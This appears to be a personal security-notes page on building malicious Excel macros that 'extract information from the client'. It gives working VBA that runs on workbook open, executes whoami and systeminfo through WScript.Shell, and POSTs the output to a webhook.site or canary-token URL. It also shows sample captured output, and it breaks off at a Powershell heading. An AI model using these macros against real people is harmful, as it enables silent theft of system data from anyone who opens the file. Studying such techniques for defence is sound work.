 # Excel and Macros

### Introduction

Macros on Excel allow a user to run Visual Basic Code in the background of a document. This section of my website will be dedicated to playing around with macros, and finding ways to extract information from the client.

### Setup

In order to create a Excel file that we are able to create macros, we will have create a file with an extension of ".xlsm". This version of Excel has macros enabled, and will allow us to make and edit macros on it. This file version should be standard in Excel, so in order to do this, you just have to create a file and save it in the ".xlsm" format. Under the View tab, you will see Macros, and from there you can edit the macros.

### Popup Message

We can create a popup message that will appear when somebody enables the macros when they first open the document.

```cpp
'Code gotten from https://analysistabs.com/excel-vba/run-macro-automatically-opening-workbook/'
Sub Auto_Open()
    Msgbox "Popup Message Here"
End Sub
```

### Print Desktop Name

We can use the Visual Basic code to display the name of the Desktop to the screen when macros are enabled.

```csharp
'Source: https://www.youtube.com/watch?v=e2icQFxhp3w'
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    MsgBox (Excel_Shell_Exec.StdOut.ReadAll)
End Sub
```

We have to copy this code under Microsoft Excel Objects in order to get it to work.

![On the right top we can see where the code will be edited](../.gitbook/assets/screenshot-2021-03-06-150627.png)

After this you can save and exit the Excel file. When you open it again, there should be a popup with the Desktop name.

### System Information Exfiltration

This code is meant for Windows systems \(tested on Windows 10\), and sends the output of the "systeminfo" command on Windows to an external website, where you can read it by entering your own web-hook link. The client will notice the Command Prompt pop up for this code.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("systeminfo")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "your https://webhook.site link"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub

```

### Integrating Canary Tokens

Canary Tokens are a way to track an IP address when they do a certain task. This could be accessing a website or even requesting a DNS hostname. We can use the previous code and incorporate a Canary Token into it.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "http://canarytokens.com/static/about/your_own_token/contact.php"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub

```

In line 6, we can see the canary token being used. Once we access the token, it then sends the information to the email or web-hook we have used initially. Our output should look like this:

```csharp
{
  "manage_url": "https://canarytokens.org/manage?token=Took_this_out&auth=Took_this_out",
  "memo": "Website Accessed ",
  "additional_data": {
    "src_ip": "Your IP",
    "useragent": "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)",
    "referer": null,
    "location": null
  },
  "channel": "HTTP",
  "time": "2021-03-07 20:25:36 (UTC)"
}
```

### Powershell - Running Processes

Similar to how we were using Command Prompt previously, we can now use Powershell. This allows us to have access to more data. 

